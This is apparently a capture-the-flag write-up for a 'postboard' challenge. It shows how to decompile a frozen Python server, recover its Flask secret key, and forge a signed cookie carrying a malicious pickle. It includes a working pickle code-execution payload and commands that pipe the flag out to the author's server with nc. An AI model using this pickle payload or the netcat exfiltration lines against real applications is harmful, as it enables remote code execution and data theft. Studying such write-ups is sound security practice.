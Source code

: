 ```
postboard
420

I made a post on this new forum, but the memes were so dank that the admin disabled it! I managed to get my hands on a broken binary for the server, can you figure out how to pwn it and retrieve my memes?

46.101.248.243 1337

NOTE: if you are getting server 500 errors, clear your cookies
```

By searching in broken binary for `__main__` or something like `This post has been disabled by the admin for being too dank.` we can find `0x881D40` offset and `0x8C8FE0` offset. After that by checking the cross references we can find `PyImport_ImportFrozenModule` function at `0x41DFDD`. This function finds the frozen module and loads it using `PyMarshal_ReadObjectFromString`. So we can extract the frozen module from `0x8C8FE0` and using `marshal.loads(frozen_module)` we can extract the code. After that by using `meta` module we can get .py file.

```python
import marshal
frozen_module=open("server.b","rb").read()
code=marshal.loads(frozen_module)
import meta, ast
mod = meta.decompile(code)
source = meta.dump_python_source(mod)
```

Here the source variable is the string of the .py file which can be seen [here.](solution.py)

By inspecting this file first we spot the cPickle. The script reads the `sesion['auth']` from cookie(encrypted but we have the key at the bottom of the code) and loads it. So now we can use pickle exploit. For signing the pickle I run my own server using flask and the same key and copied the crafted cookie.

At first I tried to do `system('cat ../flagdir/flag 2>&1 | nc ip_of_my_server 10101')` and opened the server using `nc -lvp 10101` but I got permission denied error. The file was owned by `root` however we are `post`. So I used another method that can be found [here.](https://www.cs.uic.edu/~s/musings/pickle.html).

```python
def foo():
  import os
  global posts
  flagg = posts["flag"].i
  os.system('echo "'+flagg+'" | nc ip_of_my_server 10101')

@app.route('/<arg>', methods=['POST', 'GET'])
def index(arg):
    res = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
    session['auth'] = res
    return "asdasdasd"
    return None

app.secret_key = 'can_y0u_5Teal_mY+seCr3t-key'
app.run(port=1337, debug=False, host='0.0.0.0')
```

The answer is `BLAZE{pickle_is_super_secure_with_signing_right?}`